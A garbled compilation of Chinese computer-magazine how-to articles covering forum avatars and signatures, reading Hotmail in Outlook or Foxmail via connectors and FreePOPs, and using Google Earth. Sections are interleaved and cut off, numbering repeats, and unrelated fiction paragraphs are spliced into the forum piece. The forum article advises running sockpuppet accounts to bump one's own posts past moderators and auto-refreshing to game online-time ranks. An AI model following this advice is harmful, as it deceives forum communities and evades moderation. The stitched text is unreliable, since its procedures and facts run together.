呢？一般来说有两个方法，一是论坛的头像，二是论坛签名。这两样会伴随你的每一篇帖子而出现，自然也成为你ID曝光率最高的地方了。

#### 一、吸引眼球，从主题入手

一个好的帖子，首先吸引别人的是与众不同的标题。如果说帖子好比一个人的话，标题就像是人的外表，打扮得好看自然会吸引别人来了解你啦。关于标题应该怎么写，大家只需记住：标题要符合帖子内容，富有创新，当然也可适当夸张，但不能过分。

再说帖子的内容，需要在文字排版上下功夫，比如你密密麻麻一大篇文章，会让很多坛友望而止步的。这种情况下，你可以把字体适当地调大一些，看着就会舒服得多。如图1两种帖子，你肯定会去看文字排版宽松且字体大的那种。

每天下午，她都准时来到医院大门口左侧的台阶上，铺很厚的书。她的面前是一个花坛，红色的郁金香正在灿烂地开着眼睛，平静而且清澈。虽然病号服并不合体，但并不能掩盖她很友善，每当有人找她问事的时候，她都表现得异常耐心。起风了，她轻轻地合上那本书，又整整齐齐地把那张报纸叠好

楼内的人渐渐多了起来，这个点儿有上班的也有停下，人们争着拥了进去。电梯马上就有了反应，发人没有下去的意思，她就从中间挤了出来，等下一趟。



此外还可以把字体的颜色设置下，比如调成‘橙色’或‘橘黄色’，给人一种轻快活泼的感觉。你想想啊，坛友们一天都对着一成不变的黑体字，忽然看到一篇彩色的帖子，当然会多留意一下，同时对阁下的ID也会多加留意，也为你成为论坛达人打下了基础。

#### 二、制作特色头像，打造论坛名人

对于经常逛论坛的坛友来说，都知道要让自己论坛ID出名的话，个性非常重要。那怎么才能体现出自己的个性

- 网页头像生成——Eoooi，个性头像任我选

链接地址：http://www.eoooi.com/

Eoooi是一款在线头像快速生成的网页，你无需用任何制图软件，只需简单的几步，就可以制作出十分漂亮、甚至是带文字、会动的论坛头像来。打开Eoooi网址，选择‘图片服务’选项，可以看到‘进入头像’等制作的向导，只需跟着向导一步步下去就可以生成自己满意的漂亮头像了（图2）。



这里在‘头像、签名、题图、广告’的下拉框中可以选择论坛头像，包括120×120、150×150、144×226格式的论坛头像及签名。选好后单击制作图标进入图片选择。图片有两种方式提供，可以本地上传（比如朋友们可以用摄像头拍摄自己的头像上传），可以选择网站图片库提供的图片。这里我们选择图片库的图片。选好图片后，进入‘剪切图片’步骤。在这一步，大家可以选取图片上自己满意的地方截取，如果觉得截取框不够大，也可以调整大小以适应你的截图范围。还可以调整截图后的边框颜色，使图片边框不再单调。选择好后点击‘确定剪切’进入文字编排。加入文字时，输入的文字会横排显示到图像上。大家可以输入自己觉得有个性、有特色的文字，如果坛友一见你的头像就能记住你，那不就又向目标迈出一步了！

对于文字，也能添加效果，如添加文字颜色、添加文字边框颜色。不满意的话，点击重设颜色，再次输入文字就可以换为默认的了，也可保存图片供下次编辑使用。完成后点击‘添加文字’进入下一步。效果的选择往往会使头像个性倍增，当然，这个也看个人喜好。在这里，可以在‘相框’、‘彩贴’、‘动效’、‘玩偶’四个选项切换选择效果，效果可以叠加。大家可以尝试各种效果，找到自己满意的后单击‘加入炫彩’即可生成头像，再单击‘保存图片’就可以把制作好的头像保存到自己机子上，再传到论坛就可以了。

- 制作特色头像——大鹏印章制作大师8.0

下载地址：http://www.duote.info/soft/4/67/8507.htm

如果大家觉得网页上制作不方便，不妨来试试这款特色头像制作软件，‘大鹏印章制作大师’，做出的效果为一印章，个性十足。下载好‘大鹏印章制作大师8.0’这个软件后，因为是绿色版的，直接解压就可以了，只需把解压出来的两个注册表文件导入即可完成注册。打开‘大鹏印章制作大师’（图3），新建一个文件，单击工具栏上你想要的图章（包括圆形、方形、菱形等），在空白文件处单击左键即可。

## 二、论坛签名也要有个性

再来说签名，论坛上的签名分两种，一种为“图片签名”（简称“图签”），一种为“字符签名”（简称“字签”）。图签一般用Photoshop等软件制作，但对不会Photoshop的人来说是很困难的一件事。当然，网络上有很不错的签名图片，在逛论坛的时候，可以充分发扬“拿来主义”，省时又省力。

##### 1. 图签在线Down——岑雨欣晴

链接地址：http://www.yyr1.com/article/

“岑雨欣晴”是一家分类很全的个性图片签名网站，有大量的“动漫签名”、“非主流签名”、“QQ签名”等多种签名供选择。
打开主页（图4），在网页上端选择“动漫签名”、“实物签名”或是“非主流签名”的选项，将转换到相对应的网页。



选择好自己喜欢的签名图后，可以单击图片打开其原图。这时，单击右键选择“图片另存为”下载到自己机子上，方便在论坛上传。

在这里提一下论坛使用“图签”的方式，因为一般的论坛的签名都不支持直接传图上去，所以不能直接放到签名档里。但都支持[img]代码，我们就可以把自己制作好的或是下载的图片传到自己的相册（如163相册）。然后在图片的属性里查找到图片的地址，比如是“http://img562.photo.163.com/xyz/zyx/123.jpg”，那么就在控制面板的个人签名里面写上[img]http://img562.photo.163.com/xyz/zyx/123.jpg[/img]
写好后点“提交”，自己的签名档就变成了漂亮的图签了。

##### 2. 签名字符大集合——酷云签名字字符 2.0

下载地址：http://www.skycn.com/soft/31464.html#download

图签有图签的优点，但字签也有字签的好处，况且老是去download也没什么意思。有时候字体起到的效果说不定还比图片的好呢。

安装打开“酷云签名字字符”后，界面很干净（图5），包括“特殊字符”、“特殊符号”、“签名”、“贴图”等等近20个的选项切换标签，内容的确全面丰富啊。

单击各选项卡，可以进行各种字符的切换。把自己喜欢的字符组成图片，就可以直接复制、粘贴到控制面板里的签名档使用了。

这里的字符大多数都特别有创意，相信很多你都没有见过，并且会喜欢上的。而且字符的数量还特别大，就算你一天换一个也不一定能全部用完呢。在标题栏右击鼠标有个“卷起”的选项，可以把软件收起来成为顶部一条，很节省空间。

“酷云签名字字符”使用特别简单，大家一试就知道了，但这里要说明的是，作为签名档使用时要注意格式的调整，不然出来就鼻子对上嘴了。调整好提交后，就可以在你的签名档看到自己个性的字符签名了，简单吧。



##### 3. 字符签名高手——ColorText 论坛多彩字体转换工具

下载地址：http://soft.ylmf.com/downinfo/419.html

当然，老是看着自己的黑白签名也会觉得没啥意思，况且有些也是别人看过或用过的，这里我们为了弘扬DIY精神，就来做一个简单却很炫的彩色文字专属签名。

首先下载ColorText，这是纯绿色版，下载即可以使用。将自己想要制作的文字输入到主界面之中（图6），然后进行颜色选取，彩字生成的效果大部分取决于你颜色的搭配。分别单击软件左下角的“起始颜色”和“结束颜色”，在跳出的颜色选择器中选取自己喜欢的颜色。



然后点击转换，即可得到自己想要的彩色字体。ColorText会根据选取好的颜色生成从“起始颜色”过渡到“结束颜色”的字体，十分漂亮。如果把左上角的两个框勾选上的话，点击转换时可预览文字效果，同时能把代码自动复制到剪贴板上，很省事。

#### 四、个性回帖，让我与众不同

在论坛逛，做得最多的一件事便是看别人的帖。当然，不能看帖不回帖，要到处留下我们的“脚印”，这样才能让大家总能记住这个“经常出没的ID”。回帖其实也是有讲究的，随便的几个字肯定太普通了，这时我们就要求助于一款回帖软件——“个性回帖”。下载地址：http://www.xdowns.com/soft/4/25/2006/Soft_28758.html

下载后的“个性回帖”不用安装，完全绿色免费，全面支持“UBB论坛”、“QQ空间”等彩字代码，打开主界面很简单，颜色、搭配也令人感到赏心悦目（图7）。



可以选择论坛、Q-Zone空间，复制进去要发表的文字后，单击右边相应的“论坛”、“Qzone”按钮，即可生成代码，同时也自动复制到剪贴板上，你只需去论坛回帖处粘贴即可。也可以选择字体和大小，颜色有单色、渐变、彩虹等，样式也有左对齐、居中等很多可供选择。

选择颜色可以点击颜色条框，在弹出的对话框中选择自己喜欢的颜色。这里注意颜色的搭配。

当鼠标离开“个性回帖”时，它会自动变成一个悬浮窗口。当想再次使用时，只需移动鼠标到悬浮窗口，程序窗口即会自动打开。而且“个性回帖”还实现了像QQ一样的自动靠边隐藏功能。这个好处是不占屏幕位子，也是设计得比较人性化的一点。还有就是“个性回帖”也内置了一个截图功能，可选区域截图和全屏截图，方便发帖。

“个性回帖”还有一个功能是影音播放。可以选择打开本地的MP3等文件，也可以选择搜听电台。可以想想，边发帖边听音乐也是蛮惬意的一件事了。其它还包括一个网页搜索功能，这里就不赘述了。

#### 五、迅速转帖，做好论坛搬运工

在我们逛论坛的时候，一般都会发现，论坛的精华帖只是少数，多数还是从其他地方转过来的帖子。当然，一方面是想把自己喜欢的帖子跟更多人分享；另一方面，如果想要挣积分，提高自己ID的曝光度，转帖是少不了的。而被转得最多的就要属那些图片帖了，因为图片更直观，比文字更容易吸引人。

转帖子其实挺麻烦的，特别是带图片的帖子。我们要在原图上单击右键，选择“属性”，找到图片地址。然后在发帖的时候选插入图片，复制进自己的地址，如果图片有解释文字的话还得把文字也复制进去。这样对于插入少量的图片来说还是不错的，但图片一多，我们就会发现转帖还真是一件体力活。这时候，我们就得尝试一下秘密武器——“论坛转帖工具”。

首先进入要转的帖子，把鼠标定位到第一个字符，转动滚轮，将帖子所有内容选上。也可以选中帖子的第一个字符，然后到帖子末尾，按住Ctrl键，单击最后一个字符，这样就可以选择上整篇帖子的内容。

打开“论坛转帖工具”网址http://www.comvan.com/ubb，单击“追加转换剪切板数据”按钮，即可在编辑框中出现原帖的UBB代码，这也是能被大多数论坛识别的代码。其中图片变成了[img]xxx...x[/img]，网址链接变成了[url]http://xxx...x[/url]（图8）。

```

[img]xxx...x[/img]
[url]http://xxx...x[/url]
```



#### 六、马甲切换，自己顶自己

相信发过帖的都知道，自己的帖子不是每次都能吸引大众的点击的，那么这时我们该怎么办呢？一个方法就是自己顶自己，但一个人老是在那儿回自己的贴，会被版主作为灌水帖而删除。稍微聪明一点的人就会去申请多个号，换着马甲来顶自己的帖。但因为cookie的存在，当我们用一个IE登录后，再打开另外一个IE，却发现自己还是登录的状态，这时需要不断进行登录、退出登录的操作，可能帖没发多少，人就累半死了。这时，我们打开非IE内核的浏览器时，就会发现自己处于非登录状态了。于是就用到了一个FireFox插件——“马甲切换器”。

下载地址：http://www.skycn.com/soft/37490.html#download

下载完后双击安装程序，点击“浏览”解压到任意一个文件夹即可，但提倡放到FireFox的安装文件夹下。点击运行“马甲切换器”，如果没有关闭正在运行的FireFox，会出现一个警告框，说是另外一个FireFox已经运行，此时只需关闭FireFox再试一次即可。

运行“马甲切换器”之后，会在FireFox右下角出现一个“当前马甲”的标签，我们可以点击右键建立若干马甲。

在弹出的菜单中选择“新建马甲配置文件”，给配置文件取一个名称，如“马甲a”、“马甲b”等。确定之后再次右键点击当前马甲，可以看到已经建立好的马甲，选择其中一个，如“马甲a”，这时再打开一个FireFox窗口，就会发现是未登录的状态。这样我们就可以用不同的马甲进行登录，然后切换到自己的主ID发的帖下面进行顶帖了。

#### 七、论坛挂ID，谁的时间多

有些论坛也实施以在线时长来升级，在线时间越长，会员等级就越高，相应得到的权力就越大。而每当我们登录一个论坛后，如果长时间没有进行任何操作，那么论坛就会认为我们自动退出了，这点相当恼火。但俗话说“上有政策，下有对策”，第三方浏览器就成为了我们的有力工具。这里以GreenBrowers为例，其他如Maxthon配置也类似。



在GreenBrowers中打开“工具”→“自动刷新”→“设置刷新频率”。一般来说，刷新频率设置为60秒就可以了（图10）。



再打开“工具”→“自动刷新”→“启动刷新频率”即可。接着我们再顺便打开一个网页，让论坛的标签处于非活动状态，这样才能自动刷新。当这一切都设置完后，我们就不用管论坛了，但我们的在线时间却能一直涨下去。

#### 八、多功能密码保管箱，密码一个都不会忘

马甲多了，自己的账号自然是一大堆，随着逛的论坛的增多，那光是记住那一大堆账号就够我们受的了。尤其是对于安全意识较高的朋友，给不同的账号设置不同的密码，时间一长，想不忘都难了。这时，我们就可以借助一款密码保管的软件，给自己的密码“备个份”。

##### 1. 在线密码管理专家——ALPass

下载地址：http://www.xdowns.com/soft/8/79/2007/Soft_37995.html

ALPass是一个由韩国人做的集网站、论坛、电子邮件的ID和密码管理工具，操作简单方便，对于我们经常泡论坛，马甲超多的人来说，再好不过了，更何况这个软件完全免费呢。

安装好ALPass之后，第一次运行选择“New User”创建一个新用户。这个用户是你管理ID和密码的用户，可不要忘了管理用户的密码哦。

进入管理员用户后，可以点击软件上面的“Site List”按钮查看所有账号，点击“Add”按钮添加一个新账号或是一个新文件夹，点击“Modify”按钮修改一个账号，或是点击“Delete”按钮删除已存在的账号（图11）。



添加账号时，需要输入论坛网址、名称（这个是方便自己查找）、论坛ID和密码，以及可以选择一个目录用于存放这个账号。填写完成后点击“OK”即可。

当我们要使用某个论坛的账号时，可以单击名称，打开网址，然后单击“Fill”按钮，即可自动完成输入，方便吧。

ALPass使用起来非常简单，但功能很强大，大家可以把账号分好类，都存起来，这样就不会担心自己会把某个重要的账号密码给忘了。

##### 2. 密码全管理——KeePass Password Safe

下载地址：http://tele.skycn.com/soft/18604.html

KeePass Password Safe是如今最流行的一款加密软件，数据库是用当今最先进的加密算法（AES）进行加密的，所以大家可以尽管放心，自己的密码永远也不会丢失的，除非你自己忘了。

安装好软件后，打开KeePass Password Safe，会弹出一个设置管理密码的对话框。这里我们可以把KeePass Password Safe理解为一个“密码箱子”，里面装的全是你的其它密码，而钥匙就在你手上。并且这是你管理“密码箱子”的唯一的一把钥匙，所以要仔细而小心地设置。

设置时下面有密码强度提示，这个密码可以把安全性设置得高一点。但一定要记住这个密码，不然谁都进不去你的“密码箱子”，包括你自己。设置好后，点“OK”会提示第二遍输入，这样是为了确认你的管理密码输入是否正确。

“密码箱子”打开后，我们看到界面如图12。可以右键单击“General”弹出编辑菜单，选择“Add Password Group”或是快捷键“Ctrl+G”可以添加一个新的密码组，当然也可以用它默认设置的。而第二项“Add Password Subgroup”是添加组下面的子目录，即“从组”。



在弹出的对话框中输入名字就可以建立相应的组了，比如我们新建了一个论坛的组和一个图片论坛的子目录。

这里可以点“Icon”选择这个组的图标，其中有很多图标，大家可以选择自己喜欢的，点“OK”即可。

建好所有组后，可以单击软件控制栏中的“Add Entry”，可弹出添加自己的一个密码管理项。这里“Group”是所在的组，“Title”是标识名，“User Name”是你的注册名，“URL”当然是论坛地址了。而“Password”是密码设置，“Quality”是说你密码的质量，即安全性高低，而“Notes”是对这个账号的一些说明。

综述：好了，经过笔者精心设计的速成教材就介绍到这儿了，具体操作还是要大家自己多去试试的。大家只要按照每步过来，在这么多强大工具的帮助下，相信很快就能成为论坛强人了！

### 邮件客户端也能 收取Windows Live Hotmail邮件

◆文/王志军

我们知道，对于微软系列的Hotmail、MSN、Live这三大邮箱的邮件，普通的邮件客户端程序是无法实现本地收取的，除非你使用的是收费账号或早期注册的账号，才可以使用POP、SMTP服务。因此虽然通过Windows Live Messenger或MSN Messenger，我们能够及时获得新邮件到来的提示信息，但如果需要查看邮件的内容，还是不得不通过Web页面进行，如果遭遇网络的问题，那么速度之慢就可想而知了。

其实，只要适当动一些脑筋，我们同样可以在本地处理来自Windows Live Hotmail的邮件，而且操作也并不是太复杂，这里向朋友们介绍三种不同的解决方案：

#### 一、原生支持：Windows Live Mail

Windows Live Mail是继Outlook Express和Windows Vista的Windows Mail之后推出的电子邮件程序，完全整合了上述优秀产品的卓越功能，其实也就是Windows Live Mail Desktop的后续版本，只不过是换了个名称而已，它最主要的功能就是可以在一个位置下访问多个电子邮件账户，包括可以免费访问Windows Live Hotmail，还提供了与其他的Windows Live服务的集成。

第1步：下载和安装
目前，Windows Live Mail的最新版本是8.5 Beta，下载页面为http://get.live.com/betas/maildesktop_betas，文件大小为15.5MB，下载完成后直接双击启动安装程序，注意安装时会询问是否将MSN设置为主页，请根据实际情况进行选择，接下来就没有什么需要设置的了，耐心等待片刻即可完成。

第2步：添加账户
运行Windows Live Mail，初次使用时会弹出对话框，提示输入相关的内容，注意“电子邮件地址”和“登录ID”、“密码”必须保证正确无误，这里笔者添加的是最新的@vista.aero的邮箱，注意在下一步骤中请将“我的邮件接收服务器是”设置为“HTTP”。

第3步：收取邮件
现在，我们就可以顺利地使用Windows Live Mail收取邮件(见图1)。按照类似的方法继续设置，你可以正常收取来自Hotmail、MSN、Live这三大邮箱的邮件，只要从“工具”菜单下打开“账户”对话框，单击“添加”按钮，按照提示进行操作就可以了。



##### 技巧1：让1061错误不再出现

有些朋友在安装WLMD时会出现1061的错误，导致安装进程无法继续，这其实并非系统的问题。请打开运行对话框，输入“services.msc”进入服务窗口，在这里找到Background Intrlligent Transfer Service、Automatic Update或Windows Update、Workstation这三项服务，逐一将其启动，然后更新服务状态即可。

##### 技巧2：迂回卸载WLMD

假如你曾经遭遇过无法卸载WLMD的问题，其表现是从控制面板中始终是无法完成卸载的工作，这个问题真是令人讨厌，有些朋友是找到“C:\Program Files\Windows Live Mail desktop\”这个文件夹，将其手工强行删除，然后又进入注册表，将与Windows Live Mail Desktop相关的键值查找出来后逐一删除，可以说是非常的麻烦。

其实，当手工删除相关的安装文件夹后，只要再次执行一次安装程序，然后从“服务”窗口中启用“Workstation”服务，就可以从控制面板的“添加或删除程序”列表中正常卸载。

#### 二、官方插件：Outlook Connector

相信很多朋友都知道，很久以前Outlook就已经无法接收来自Hotmail、MSN邮箱的邮件，除非你是早期的注册用户或付费账号。当然你可以使用Windows Live Mail，不过它的个头太大，而且安装、配置也比较麻烦，微软为了解决这个问题，专门为此发布了一个名为Microsoft Office Outlook Connector的插件，可以帮助用户在Outlook 2003或Outlook 2007同步Windows Live Hotmail账号。

第1步：下载插件目前，Microsoft Office Outlook Connector发布了最新的2.0版本，之前的测试版本将陆续停止使用，因此还是很有必要升级至最新的版本。
我们可以从微软官方网站下载这个插件，页面地址为http://www.microsoft.com/downloads/details.aspx?displaylang=zh-cn&FamilyID=7aad7e6a-931e-438a-950c-5e9ea66322d4，下载时需要通过正版验证，版本号为12.0.4518.1058，文件大小为3.8 MB。如果你下载不太方便，那么可以使用下面的直接下载地址：http://download.microsoft.com/download/9/e/a/9ea42317-501a-4948-93d2-e4af73f730ec/OutlookConnector.exe。

##### 第2步：配置邮箱账户

完成Microsoft Office Outlook Connector的安装之后，运行Outlook时会自动进入配置窗口，如图2所示，在这里手工输入相应的邮箱地址和密码，还需要提供在收件箱中的专用文件夹名称，注意每次只能添加一个账户，至于其他的选项则不需要设置，重新启动Outlook之后即可正式使用。



如果需要添加多个邮箱，那么可以从“Outlook Connector”菜单下选择“添加新账号”继续添加，添加完成后当然还是必须退出并重新启动Outlook后才能正式生效。

##### 第3步：收发邮件

现在，我们就可以在Outlook中非常方便地接收和管理来自Hotmail、MSN、Live这三大邮箱的邮件，如图3所示，现在可以发现主界面中增加了一个名为“Outlook Connector”的菜单。仍旧单击工具栏上的“发送/接收”按钮，就可以接收已完成配置的所有账号的邮件，或者也可以从“发送/接收”下拉菜单中单独接收某个账号的邮件。
如果你希望实现更多的配置，那么可以从“Outlook Connector”菜单下进行操作，例如“下载模式”子菜单可以选择只下载邮件头，“设置”子菜单可以进入Web页面完成邮箱和账户服务的配置。



②单击“下一步”按钮，此时会弹出“自动账户设置”的对话框，鉴于Hotmail、MSN、Live三大邮箱的特殊性，请勾选左下角的“手动配置服务器设置或其他服务器类型”复选框，然后请在随后弹出的窗口中选择“Internet电子邮件”。
③进入图4所示的窗口，这里的设置至关重要，下面简单解释一下。



- 用户信息：这里的内容可以自由设置，真实与否并不重要。
- 电子邮件地址：真实与否并不重要，但建议还是尽可能与Windows Live ID的邮箱保持一致。
- 服务器信息：这里的设置比较重要，“账户类型”仍旧保持“POP3”不需要更改，但需要将接收邮件服务器和发送邮件服务器的地址都设置为127.0.0.1。
- 登录信息：“用户名”请填写完整的名称，即包括@后面的内容，这一点至关重要。

##### 第3步：接收邮件

完成上述步骤之后，我们就可以顺利在Outlook下接收来自Windows Live Hotmail的邮件了。

#### 三、第三方插件：FreePOPs

与Windows Live Mail和Outlook Connector相比，FreePOPs的好处是除了支持Outlook之外，还可以实现对Foxmail、DreamMail等更多邮件工具的支持，而且提供了小巧的免安装版本。目前，FreePOPs的最新版本是0.2.5，这是一款完全免费的软件，支持Windows、Linux、Mac Universal、BeOS、Platform等各种平台，可以让Hotmail、MSN、Live这些Web邮箱实现本地收取。

##### 第1步：获得FreePOPs

打开浏览器，在地址栏中手工输入下列地址：http://www.freepops.org/en/download-win.shtml，这里提供了EXE、ZIP两种不同的版本供用户选择，建议选择免安装的ZIP版本，文件大小为1.21 KB，这样无论是使用或是卸载都比较方便，下载回来后将其释放到相关文件夹下备用。

##### 第2步：配置账户

进入FreePOPs所在的文件夹，双击运行freepopsd.exe，此时系统托盘处会出现一个七色的向日葵状图标，这表示FreePOPs已经处于工作状态，接下来的工作就是配置账户了，这里以Outlook 2007为例进行介绍：
①启动Outlook，从工具菜单下选择“账户设置”，在随之弹出的对话框中单击“新建”按钮，此时会出现“添加新电子邮件账户”的向导窗口，在这里请选择“Microsoft Exchange、POP3、IMAP或HTTP”，这样才能在本地接收来自Windows Live Hotmail的邮件。

如果你准备在Foxmail中接收来自Windows Live Hotmail的邮件，那么可以从“邮箱”菜单下选择“新建邮箱账户”，然后按照下面的步骤进行操作。

### 第1步：设置账户信息

如图5所示，图中红色的内容当然是要认真填写的，这里的设置和添加其他类型的账户方法相同，填写完成后单击“下一步”按钮继续。

### 第2步：指定邮件服务器

将“POP3服务器”和“SMTP服务器”都设置为“127.0.0.1”，“POP3账户名”当然还是必须设置为“wzj9999@vista.aero”，接下来步骤就与Outlook

### 谷歌数字地球应用全面指南

◆文/龚师傅

“数字地球”无疑是近两年来互联网上最热门的应用之一。通过卫星地图业务不仅可以满足我们“窥视”地球的欲望，更能为我们日常生活带来无比的便捷。数字地球可以简单被视作一个巨大的地球卫星图片数据库，当然需要有相当强大的技术实力和资金投入，目前最为成功的是谷歌提供的数字地球服务，另外微软也开始涉足这一领域。而与数字地球的复杂不同，提供网上地图服务的门槛就低多了。目前国内就有百度、搜狗等多家公司提供，本文将重点为大家介绍谷歌地球的相关情况及使用技巧。

提供的卫星影像，并非单一数据来源，而是卫星影像与航拍的数据整合。其卫星影像部分来自于美国DigitalGlobe公司的QuickBird（捷鸟）商业卫星，航拍部分的来源主要有英国的BlueSky公司。最高精度可以达到五年前军用级水平，可以清楚地看到地面上的汽车和每棵树木，同时由于它和真实的地球物理信息做了匹配，也就是说它的地形、海拔、经纬度信息和GPS输出的经纬度信息是完全重合的，所以对民用来说，有很高的实用价值。GoogleEarth采用了成熟的宽带流技术，能实时地为用户提供数据。3D图形技术则让用户可以从任意角度浏览到高清晰的地图。本地搜索可以搜索饭店、酒馆等，可通过直观地观察宾馆的周围环境，来选择是否作为度假宾馆入住，或观察出租公寓周围的环境。另外在部分国家还能提供驾驶线路指导等服务。

通过GE地图检索服务，人人都可轻易取得某些城市敏感地方的地形图，包括一些敏感的政府建筑和军事设施，人们担心这样会导致自己的隐私权受到侵犯，而更害怕这些详细的地理信息可能被恐怖组织利用。对此，Google发言人解释是，Google地球服务所提供的地图多半来自网络上的公开图片，即使Google不推出此项服务，有心人士仍可在网络上找到这些图片。其实从另一个角度看，能引起广泛争议也正是谷歌地球取得巨大成功的标志。



#### 一、数字地球简介

##### 1. GoogleEarth概述

GoogleEarth（以下简称“GE”）是Google(谷歌)公司在2005年向全球推出的数字地球产品，用户可以通过浏览器或客户端软件，免费浏览全球各地的高清晰度卫星图片。GoogleEarth虽然目前还没有简体中文界面，但在国内已经拥有不少粉丝。

GE来源于专业卫星图像公司Keyhole（钥匙孔）公司原有的旗舰软件，2004年该公司被Google收购。GE提



##### 2. 微软虚拟地球简介

在看到GE取得巨大成功后，微软也开始关注数字地球，并推出了一个功能与GE差不多的微软“虚拟地球”，其实也是基于地理信息服务的一个地图查询系统。微软与PictometryInternational公司签署了协议，以获得该公司的高清晰航拍照片和相关技术，并增加了bird'sEye(鸟瞰)的功能，这样微软虚拟地球就能够提供比GoogleEarth更高分辨率和更高质量的图像。用户可以把图像放得更大，可以旋转视图从东西南北四个角度观察，和GoogleEarth没有什么差别了。

第3步：更改端口
返回Foxmail主界面，打开“邮箱账户设置”对话框，切换到“邮件服务器”选项卡，首先请取消“自动启动Foxmail-Hotmail Proxy”的复选框，然后单击“高级”按钮，请将“POP3服务器端口”更改为“2000”，单击“确定”按钮。
现在，我们就可以在Foxmail中顺利地接收来自Windows Live Hotmail的邮件了。最后要提醒的是，建议不要过于频繁地收取邮件，最好保持10分钟以上的间隔，否则有可能会由于过于频繁访问邮箱被临时冻结账户。由于并没有提供退出的选项，因此请从“任务管理器”下中止进程，稍麻烦一些。
通过刚才的介绍，相信朋友们已经基本上掌握了如何在本地处理来自Windows Live Hotmail的邮件，你可以根据实际情况进行选择，感兴趣的朋友不妨一试。



北4个不同方向观看地貌。部分城市的航空照片质量非常高，分辨率已经小于0.1米，视角高度距地面最小近约23米（25 yds），也就如同站在20多米的楼顶看地面的效果。



GoogleEarth的一大局限是它只能显示建筑物的屋顶，没有正面和侧面的信息。尽管Google试图通过对一些大城市添加三维图像来加以弥补，但效果不明显。微软虚拟地球在这上面领先一步。该公司VirtualEarth包含了建筑物正面和侧面的实景照片，那些照片都是飞机通过多台能拍摄45度视角的摄像机拍摄的，不过目前虚拟地球能提供高分辨率图片的城市还非常有限。

#### 二、谷歌地球一般使用技巧

### 1.在浏览器中使用谷歌地球

GoogleEarth的使用并不复杂，最简单最常用就是在浏览中打开http://maps.google.com，点击右上角的Satellite，即可以使用Google的卫星地图服务。界面上面是录入框，可直接输入地名定位地图。左侧是工具按钮。上下左右四个方向键，中间按钮回到最后一次查找的结果。左侧下面是分辨率，点+即放大一级，点-即缩小一级，也可以拉动中间的滚动条直接改变分辨率。在GoogleEarth网站上有三种办法可以定位你想查找的区域：一是在上方搜索录入框直接输入地名，最好输入英文，如输入chengdu，就可以查找成都的卫星图片；二是将分辨率滚动条拉到最下方，然后在全球地图中逐步放大查找；第三，如果我们有某个区域的具体经纬度，那么最方便的使用方法是直接输入经纬度，就能准确查看到你所需要的卫星地图。具体就是将GPS测定的经纬度代入：http://maps.google.com/maps?ll=纬度,经度&spn=0.1,0.1&t=k&hl=en，注意，经纬度都使用十进制。另外GoogleMaps还能提供矢量地图服务，进入“Directions”后，可以显示两个地点之间的行车路线，要注意矢量地图和驾车指南服务仅在欧美、日本等部分地区有效，中国车友暂时无法享受。

不过国内用户可以使用百度地图、搜狗地图、51ditu等网站实现类似功能。百度地图是目前国内做得比较好的电子地图服务，可以实现详细的分类搜索服务，比如你可以在“餐饮服务”搜索所有“老北京京味小吃”在地图上的大概位置，此外还能查找详细的乘车路线。百度地图提供了“到这里去”的功能，只要输入起点和终点即可。另外还支持企业的增值标注服务。网上地图的使用方法很简单，感兴趣的朋友可以自行尝试。

区域。卫星图浏览区，右上角为导航控制栏。搜索定位区（Search），用户可以在这里输入地理名称、坐标来快速定位。地点信息区（Places），通常所说的地标文件就保存在这里。图层信息区（Layers），现在内容变得非常丰富，地形、三维建筑物、国家地理杂志等精彩内容均包含其中。GE4新版导航控制栏将GE原有功能进行了高度整合，所有的控制功能都集中在卫星图的右上角区域，让用户操作控制变得更为流畅。指南针，点击内圈箭头（上下左右四个方向）可以整体移动卫星图；拖动围绕指南针的圆圈来旋转图片方位，点击“N”按钮，恢复“上北下南”的地图方位。缩放工具，点击“+”、“-”按钮或拖动滑块缩放图片大小。视图调节工具，改变卫星图视图倾斜角度，配合“图层(Layers)→地形(Terrain)”功能，可以看到三维效果。再介绍一下鼠标操作技巧：左键：按住左键不放，可任意移动地球图片。右键：按住右键不放，通过上下移动鼠标，可缩放卫星图。滚轮：Shift+滚轮上下滚动，可改变视图倾斜角度；Ctrl+滚轮上下滚动，可旋转方位；滚轮上下滚动，可缩放大小。

### 2.安装GoogleEarth软件

要真正全面体会GE的强大功能，一定要下载并安装GoogleEarth软件，这款软件分为三个版本。一是免费的GoogleEarth，另一个是GoogleEarthPlus，增加了GPS卫星定位协助驾驶平台，可以画航线，可以和特定的GPS接收器连接，实时观看线路，但需要每年交20$美金的服务费，此外还有GoogleEarthPro供商业使用的专业版，每年需要400$。国际化方面，GoogleEarth是多语言版（因此不存在单独的中文版），可以直接在软件中设置不同的语言界面，但至今仍未支持简体中文（已有繁体中文可以选择），对中文支持还不是十分完善，因此我们在用户名、搜索关键字、地标等使用上要尽量避免使用中文。

启动GE软件后，我们可以看到几个

我们可以先尝试一下它的“飞翔”（FlyTo）功能，这是GE最有趣的功能之一，能很快地从互联网上获取图像，然后带你从地球的一个角落“飞到”另一个角落。只要网络带宽足够，这一过程非常流畅，简直就像好莱坞的特技。GE界面左上为搜索区（Search），我们使用其中的“FlyTo”功能即可快速定位。直接在输入框里键入地址相关数据，回车后，地球会自动旋转并定位到目标地点。键入的数据可以是地名，也可以是经纬度坐标、邮政编码等。



### 3.用好GE的图层功能

GE的一大特色在于提供了图层功能。在基础影像之上提供了很多数据图层，用户可根据自己希望看到的实际情况选择打开的图层。图层打开会在相应的位置呈现各种数据，包含了衣食住行方方面面，可以直观地利用在商业信息调查、市场数据调研、店面选址决策等方面。遗憾的只是这些图层大多数目前只有在美国才有数据（尤其是与城市关联的部分）。

标使用非常简单，当我们下载了别人做好的地标文件后只需双击，就可以自动打开GoogleEarth，并显示出地标所指示的画面。地标可以由你自己动手添加，还可以像IE收藏夹那样进行导入导出，方便你把发现的好地方给朋友一起分享。

KML是原先的Keyhole客户端进行读写的文件格式，是一种XML描述语言，并且是文本格式，这种格式的文件对于GoogleEarth程序设计来说有极大的好处，而KMZ是GoogleEarth默认的输出文件格式，是一个经过ZIP格式压缩的KML文件。需要注意的是，KMZ/KML地标文件名不能包含中文字符，文件存放的路径也不能有中文字符，否则可能无法正常使用。



图层具体操作是，在GoogleEarth左侧，找到一个叫图层（Layers）的设置，点中不同的图层，可以在GoogleEarth显示更多的信息，这里介绍主要的几个：

GoogleEarthCommunity图层：显示在GoogleEarth社区上，网友自己标记的地标。分享地标就是用的这个图层。

Borders图层：显示国家、省等之间的边界信息。

NationalGeographicMaga图层：有大量国家地理杂志在非洲的航拍高清晰地图地标。

Transportation图层：可以显示世界各地的机场、火车站信息。

